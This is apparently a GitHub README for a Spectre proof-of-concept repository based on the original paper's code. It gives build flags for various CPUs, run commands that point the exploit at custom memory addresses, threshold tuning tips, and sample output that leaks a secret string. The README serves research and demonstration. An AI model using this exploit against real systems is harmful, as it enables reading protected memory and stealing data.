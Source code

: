 # SpectrePoC

Proof of concept code for the Spectre CPU exploit.

## Attribution

The source code originates from the example code provided in the "Spectre Attacks: Exploiting Speculative Execution" paper found here:

https://spectreattack.com/spectre.pdf

The original source code used in this repository was conveniently provided by Erik August's gist, found here: https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6

The code has been modified to fix build issues, add workaround for older CPUs, and improve comments where possible.

## Building

The project can be built with GNU Make and GCC.

On debian these are included in the `build-essential` metapackage.

Building is as easy as:

`cd SpectrePoC`

`make`

The output binary is `./spectre.out`.

### Building for older CPUs

Depending on the CPU, certain instructions will need to be disabled in order for the program to run correctly.

The instructions in question are:

#### rdtscp:

Introduced with x86-64.
All 32-bit only CPUs, including many Core 2 Duos, will need to disable this instruction.

To build the project without `rdtscp`, define the NORDTSCP cflag:

`CFLAGS=-DNORDTSCP make` 

#### mfence:
Introduced with SSE2.
Most CPUs pre-Pentium 4 will need to disable this instruction.

To build the project without `mfence`, define the NOMFENCE cflag:

`CFLAGS=-DNOMFENCE make`

#### clflush
Introduced with SSE2.
Most CPUs pre-Pentium 4 will need to disable this instruction.

To build the project without `clflush`, define the NOCLFLUSH cflag:

`CFLAGS=-DNOCLFLUSH make`

To define multiple cflags, separate each cflag with an escaped space. For example:

`CFLAGS=-DNORDTSCP\ -DNOMFENCE\ -DNOCLFLUSH make`

### Building it without using the Makefile

If you want to build it manually, make sure to disable all optimisations (aka, don't use -O2), as it will break the program.

## Executing

To run spectre with default cache hit threshold of 80, and the secret example string "The Magic Words are Squeamish Ossifrage." as the target, run `./spectre.out` with no command line arguments.

**Example:** `./spectre.out`

The cache hit threshold can be specified as the first command line argument. It must be a whole positive integer.

**Example:** `./spectre.out 80`

A custom target address and length can be given as the second and third command line arguments, respectively.

**Example:** `./spectre.out 80 12345678 128`

## Tweaking

If you're getting lackluster results, you may need to tweak the cache hit threshold. This can be done by providing a threshold as the first command line argument.

While a value of 80 appears to work for most desktop CPUs, a larger value may be required for slower CPUs. For example, on a AMD GX-412TC SOC, a value of 100-300 was required to get a good result.

## Contributing

Feel free to add your results to the "Results" issue. Include your cache hit threshold, OS details, CPU details like vendor Id, family, model name, stepping, microcode, MHz, and cache size. The OS can be found by running `uname -a`. CPU info can be found by running `cat /proc/cpuinfo` on Linux, and `sysctl -a | grep machdep.cpu` on OSX.

## Example output

The following was output on an AMD GX-412TC SOC, with a cache hit threshold of 100:

`./spectre.out 100:`

```
Using a cache hit threshold of 100.
Build: RDTSCP_SUPPORTED CLFLUSH_SUPPORTED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfedf8... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfedf9... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfedfa... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfedfb... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfedfc... Success: 0x4D=’M’ score=2
Reading at malicious_x = 0xffffffffffdfedfd... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfedfe... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfedff... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee00... Success: 0x63=’c’ score=2
Reading at malicious_x = 0xffffffffffdfee01... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee02... Success: 0x57=’W’ score=2
Reading at malicious_x = 0xffffffffffdfee03... Success: 0x6F=’o’ score=2
Reading at malicious_x = 0xffffffffffdfee04... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee05... Success: 0x64=’d’ score=2
Reading at malicious_x = 0xffffffffffdfee06... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee07... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee08... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee09... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee0a... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee0b... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee0c... Success: 0x53=’S’ score=2
Reading at malicious_x = 0xffffffffffdfee0d... Success: 0x71=’q’ score=2
Reading at malicious_x = 0xffffffffffdfee0e... Success: 0x75=’u’ score=2
Reading at malicious_x = 0xffffffffffdfee0f... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee10... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee11... Success: 0x6D=’m’ score=2
Reading at malicious_x = 0xffffffffffdfee12... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee13... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee14... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfee15... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee16... Success: 0x4F=’O’ score=2
Reading at malicious_x = 0xffffffffffdfee17... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee18... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee19... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee1a... Success: 0x66=’f’ score=2
Reading at malicious_x = 0xffffffffffdfee1b... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee1c... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee1d... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfee1e... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee1f... Success: 0x2E=’.’ score=2
```
